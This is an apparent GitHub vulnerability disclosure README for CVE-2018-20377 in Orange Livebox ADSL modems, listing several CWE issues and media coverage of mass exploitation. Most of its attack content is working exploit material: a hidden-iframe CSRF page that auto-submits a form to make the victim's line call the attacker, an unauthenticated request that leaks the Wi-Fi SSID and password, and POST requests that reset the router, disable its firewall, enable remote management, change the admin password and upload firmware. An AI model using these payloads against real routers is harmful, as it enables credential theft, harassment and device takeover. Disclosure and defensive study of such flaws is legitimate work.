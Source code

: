 # LIVEBOX-0DAY   CVE-2018-20377
Arcadyan ARV7519RW22-A-L T VR9 1.2 Multiple security vulnerabilities affecting latest firmware release on ORANGE Livebox ADSL modems.

```
Versión de Firmware:  00.96.320S (01.11.2017-11:43:44)
Versión del Boot:  v0.70.03
Versión del Módem ADSL: 5.4.1.10.1.1A
Versión de Hardware:  02
```

<img src="https://zdnet4.cbsistatic.com/hub/i/2018/12/24/f38a0deb-981c-40d9-8b62-63b26722864a/cff2efda698d728f09ba5449ebeac37a/orangelivebox.png" width="1000px">

**CWE-359**: *Exposure of Private Information ('Privacy Violation').*

A very serious attack vector allows an attacker to link CSRF drive-by vulnerabilities to exploit Autodialing and Line Test features, succesfully making calls from a victim's line, exposing a client's phone number and making him susceptible to scams and impersonation. Nuisance calls alone are also a serious concern.

` Proof of concept exploit: `  

``` html
<!DOCTYPE html>

<!-- Phone number disclosure, reflected call exploit -->

<html>

<iframe style="display:none" id="csrf-frame-invisible" name="csrf-frame-invisible"></iframe>
<form style="display:none" method='POST' action='http://192.168.1.1/cgi-bin/autodialing.exe' target="csrf-frame-invisible" name="csrf-form-invisible" id="csrf-form-invisible">
  <input type='hidden' name='autodialing_enable' value='1'>
  <input type='hidden' name='autodialing_number' value='5550150'> <!-- attacker's phone number goes here -->
  <input type='hidden' name='autodialing_timeout' value='0'>
  <input type='submit' value='Submit'>
</form>

<script>document.getElementById("csrf-form-invisible").submit()</script>

<img src="http://192.168.1.1/cgi-bin/phone_test.exe" width="0" height="0" border="0">

</html>
```

When the victim visits the malicious site, it will create an autodialing profile on the victim's modem, and activate the Line Test feature. No interaction needed. The phone will ring, and when the call is answered the autodialing feature will call the attacker's number. 

&nbsp;

<!---
-->
 Demo                           | Attack scenario |
:------------------------------:|:----------------------:|
 ![DEMO](poc/CWE-359.gif)       | This vector can be exploited to conduct false flag operations (such as impersonating an individual with a restraint order against another), marketing campaings, harassment, denial of service, and intelligence gathering. |

&nbsp;



**CWE-200**: *Information Exposure: Unauthenticated configuration information leak.*

	The webserver leaks access point security protocol, SSID, and password in plain text.
	GET http://192.168.1.1/get_getnetworkconf.cgi

``` html
	<html>
	<body>
	Orange-SSID<BR>
	PASSWORD<BR>
	255.255.255.0<BR>
	192.168.1.1<BR>
	0<BR>
	WPA<BR>
	<BR>
	</body>
	</html>
```


**CWE-352**: *Cross-Site Request Forgery (CSRF): The web application does not, sufficiently verify whether a well-formed, valid, consistent request was intentionally provided by the user who submitted the request. Allows an attacker to manipulate all configuration parameters.*

```
Integrity Impact 	Complete. 	(There is a total compromise of system integrity. There is a complete loss of system protection, resulting in the entire system being compromised.)  
Availability Impact 	Complete.	(There is a total shutdown of the affected resource. The attacker can render the resource completely unavailable.)  
Access Complexity 	Low.		(Specialized access conditions or extenuating circumstances do not exist. Very little knowledge or skill is required to exploit. )  
Authentication 		None.		(The vulnerability does not require an attacker or user to be logged into the system).   
User interaction        None.  
```

	- Login with default admin:admin credentials after restoring configuration to factory settings. (This can be omited if the victim has an active session.)
	- Change default credentials.
	- Enable remote access.
	- Upload custom firmware to install remote access malware or brick the system.

	
	POST http://192.168.1.1/cgi-bin/restore.exe {empty body} Restores configuration to factory defaults.
	POST http://192.168.1.1/cgi-bin/firewall_SPI.exe {empty body} Disables all firewall protections.
	POST http://192.168.1.1/cgi-bin/setup_remote_mgmt.exe {IP1=FIRST_OCTET &IP2=SECOND_OCTET &IP3=THIRD_OCTET &IP4=FOURTH_OCTET &r_mgnt_port=_PORT } Allows remote administration. 
	POST http://192.168.1.1/cgi-bin/setup_pass.exe	{submit_action=0&userNew=admin&userOldPswd=admin&userNewPswd=NEWPASS&userConPswd=NEWPASS&timeout=0} Changes default password.
	POST http://192.168.1.1/cgi-bin/upgradep.exe Custom firmware update.




**CWE-912**: *Hidden Functionality. The software contains functionality that is not documented, not part of the specification, and not accessible through an interface or command sequence that is obvious to the software's users or administrators.*

Manual firmware update. Allows malware to be installed as described before.
	
	GET http://192.168.1.1/system_firmwarel.stm

&nbsp;


## Media coverage

On December the 21st-2018 a threat actor identified by Troy Mursch's honeypots at BadPackets LLC suspectedly attacked over 19000 vulnerable modems in Spain with the exploits described in this repository. The criminal targeted the Credentials  Disclosure (CWE-200) vulnerability and likely employed Access Point geolocation databases such as my own [GS-LOC](https://github.com/zadewg/GS-LOC/) to map the APs. 

* [BadPackets](https://badpackets.net/over-19000-orange-livebox-adsl-modems-are-leaking-their-wifi-credentials/)
* [InfoSecurity Magazine](https://www.infosecurity-magazine.com/news/20000-orange-modems-leaking-wi-fi/)  
* [BleepingComputer](https://www.bleepingcomputer.com/news/security/orange-livebox-modems-targeted-for-ssid-and-wifi-info/)    
* [GBhackers](https://gbhackers.com/orange-adsl-modems/)  
* [Security Affairs](https://securityaffairs.co/wordpress/79152/hacking/orange-livebox-adsl-modems-flaw.html)  
* [ZDNet](https://www.zdnet.com/article/over-19000-orange-modems-are-leaking-wifi-credentials/)  

---

This project is licensed under the MIT License - see the [LICENSE](LICENSE) file for details

**mapez** - [telegram](https://t.me/mapezz)
